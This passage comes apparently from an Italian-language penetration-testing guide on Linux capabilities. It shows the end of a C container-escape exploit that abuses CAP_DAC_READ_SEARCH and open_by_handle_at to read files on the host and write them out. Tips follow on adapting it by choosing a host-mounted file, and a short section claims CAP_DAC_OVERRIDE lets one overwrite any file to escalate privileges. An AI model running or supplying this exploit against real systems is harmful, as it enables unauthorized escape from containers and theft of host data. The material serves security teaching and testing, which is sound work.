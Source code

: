 ```c
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");

read(0, buf, 1);

// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");

if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
die("[-] Cannot find valid handle!");

fprintf(stderr, "[!] Got a final handle!\n");
dump_handle(&h);

if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
die("[-] open_by_handle");

memset(buf, 0, sizeof(buf));
if (read(fd2, buf, sizeof(buf) - 1) < 0)
die("[-] read");

printf("Success!!\n");

FILE *fptr;
fptr = fopen(argv[2], "w");
fprintf(fptr,"%s", buf);
fclose(fptr);

close(fd2); close(fd1);

return 0;
}
```
> [!WARNING]
> L'exploit deve trovare un puntatore a qualcosa montato sull'host. L'exploit originale utilizzava il file /.dockerinit e questa versione modificata utilizza /etc/hostname. Se l'exploit non funziona, potrebbe essere necessario impostare un file diverso. Per trovare un file montato nell'host, esegui semplicemente il comando mount:

![](<../../images/image (407) (1).png>)

**Il codice di questa tecnica è stato copiato dal laboratorio di "Abusing DAC_READ_SEARCH Capability" da** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

## CAP_DAC_OVERRIDE

**Questo significa che puoi bypassare i controlli dei permessi di scrittura su qualsiasi file, quindi puoi scrivere qualsiasi file.**

Ci sono molti file che puoi **sovrascrivere per escalare i privilegi,** [**puoi prendere spunti da qui**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).
